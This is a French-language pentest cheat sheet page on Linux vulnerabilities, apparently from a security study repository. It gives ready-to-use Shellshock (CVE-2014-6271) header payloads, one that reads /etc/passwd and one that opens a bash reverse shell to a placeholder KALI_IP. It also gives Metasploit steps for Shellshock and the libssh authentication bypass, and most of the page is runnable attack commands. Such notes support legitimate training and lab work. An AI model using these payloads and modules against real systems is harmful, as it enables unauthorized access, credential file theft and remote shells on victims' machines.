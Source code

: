 # 🐧 Vulnérabilités Linux

[← Retour à la table des matières](../README.md)

## Shellshock (CVE-2014-6271)

### Détection
```bash
# Test de vulnérabilité Shellshock sur CGI
nmap -sV targetIP --script=http-shellshock --script-args "http-shellshock.uri=/scriptsCGI.cgi"
```

### Exploitation manuelle avec Burp Suite

#### Configuration
1. **Lancer FoxyProxy** pour rediriger vers Burp Suite
2. **Ouvrir Burp Suite** → Proxy → Activer l'intercept
3. **Recharger la page** cible
4. **Clic droit** → Send to Repeater

#### Injection dans les headers
```http
# Remplacer le User-Agent par :
User-Agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'

# Pour un reverse shell :
User-Agent: () { :; }; echo; echo; /bin/bash -c 'bash -i>&/dev/tcp/KALI_IP/PORT 0>&1'
```

### Exploitation avec Metasploit
```bash
use exploit/multi/http/apache_mod_cgi_bash_env_exec
set RHOSTS targetIP
set TARGETURI /scripts
# Adapter le TARGETURI selon l'emplacement du script CGI
run
```

## LibSSH Authentication Bypass

### Exploitation directe pour meterpreter
```bash
# Exploit libssh pour bypass d'authentification → [📖 Guide SSH](../03-enumeration/ssh.md)
use auxiliary/scanner/ssh/libssh_auth_bypass
set RHOSTS targetIP
set SPAWN_PTY true
exploit
# Résultat : Session meterpreter directe sans besoin de credentials
```

## Autres vulnérabilités Linux

### Kernel Exploits
Voir [Linux Privilege Escalation](../05-post-exploitation/linux-privesc.md) pour les détails sur l'exploitation des vulnérabilités kernel.